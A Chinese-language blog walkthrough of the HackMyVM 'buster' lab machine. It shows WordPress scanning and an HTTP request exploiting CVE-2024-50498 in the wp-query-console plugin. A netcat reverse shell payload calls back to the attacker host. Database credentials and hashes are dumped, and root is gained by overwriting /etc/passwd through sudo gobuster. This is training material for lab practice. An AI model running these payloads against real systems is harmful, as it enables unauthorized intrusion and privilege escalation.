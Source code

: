 ```yaml
---
title: "HMV buster"
subtitle: ""
date: 2025-02-16
draft: false
author: ""
authorLink: ""
license: ""

tags: ["渗透"]
categories: ["靶场"]

featuredImage: ""
featuredImagePreview: ""

summary: ""

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
  auto: true

mapbox:
share:
  enable: true
comment:
  enable: true
---
```

## buster

### 靶场链接

https://hackmyvm.eu/machines/machine.php?vm=buster

### 日常扫描
扫出来80端口，打开发现是wordpress
wpscan扫出来两个用户，继续扫描

### 反弹shell

wpscan --api-token  --url http://192.168.64.20/ -e u,ap --plugins-detection aggressive

扫出来漏洞插件wp-query-console，CVE-2024-50498
poc
```
POST /wp-json/wqc/v1/query HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/admin.php?page=wp-query-console
Content-Type: application/json
Content-Length: 45
Origin: http://kubernetes.docker.internal
Connection: keep-alive
Priority: u=0

{"queryArgs":"phpinfo();","queryType":"post"}
```
改成josn格式，bp发过去

看一下被禁用的
><tr><td class="e">disable_functions</td><td class="v">passthru,exec,system,popen,chroot,scandir,chgrp,chown,escapesh</td><td class="v">passthru,exec,system,popen,chroot,scandir,chgrp,chown,escapesh</td></tr>
shell_exec可以试试

```
POST /wp-json/wqc/v1/query HTTP/1.1
Host: 192.168.64.20
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 83

{"queryArgs":"shell_exec('nc -e /bin/bash 192.168.64.3 4444');","queryType":"post"}
```

本地成功拿到shell，开始提权

### 提权

/usr/bin/script -qc /bin/bash /dev/null交互式终端
wp-config.php看看账号密码
```
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'll104567' );

/** Database password */
define( 'DB_PASSWORD', 'thehandsomeguy' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```
查数据库，得到密码
ta0 - $P$BDDc71nM67DbOVN/U50WFGII6EF6.r.
welcome - $P$BtP9ZghJTwDfSn1gKKc.k3mq4Vo.Ko/

爆出来welcome的密码，104567，ta0的爆了好久没出来

ssh上去之后发现sudo -l发现gobuster可以sudo无密码执行，这个就是提权点
传个pspy上去看看运行的东西，发现/opt/.test.sh在后台运行，利用这个提权，但是不会（）。
看了佬的wp，有一个gobuster的通杀提权方法？

```#kali
perl -e 'print crypt("1","aa")'

cat a.py             
from flask import Flask, Response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    if len(path) == 36:
        return Response(status=404)
    else:
        return Response(status=200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)

python a.py
 * Serving Flask app 'a'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.64.3:80
Press CTRL+C to quit

#靶机
echo 'aaa:aacFCuAIHhrCM:0:0:x:/root:/bin/bash' > aaa
sudo /usr/bin/gobuster -w aaa -u http://192.168.64.3 -n -q -o /etc/passwd
cat /etc/passwd
su - /aaa
```
然后就提权成功了
